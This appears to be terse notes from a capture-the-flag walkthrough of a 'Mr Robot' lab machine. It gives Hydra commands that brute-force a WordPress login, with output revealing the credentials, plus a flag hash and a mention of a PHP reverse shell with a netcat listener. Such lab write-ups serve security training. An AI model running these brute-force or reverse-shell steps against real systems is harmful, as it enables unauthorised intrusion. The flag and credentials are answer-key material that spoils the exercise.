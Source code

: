 Found Robot.txt: http://10.10.239.79/robots.txt

First Flag: http://10.10.239.79/key-1-of-3.txt

`073403c8a58a1f80d943455fb30724b9`

## Wordpress

http://10.10.239.79/wp-login

```
hydra -L fsocity.dic -p test 10.10.239.79 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-29 20:50:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.239.79:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username
[80][http-post-form] host: 10.10.239.79   login: Elliot   password: test
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

`Elliot`

```
sort fsocity.dic | uniq > fsocity_sorted.dic
```

`hydra -l Elliot -P fsocity_sorted.dic 10.10.239.79 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302"`

```
[80][http-post-form] host: 10.10.157.219   login: "Elliot"  password: "ER28-0652"
```

[http://10.10.239.79/wp-admin/](http://10.10.239.79/wp-admin/)

php_reverse_shell

nc -nlvp 9001

![](2020-09-29_22-00.png)
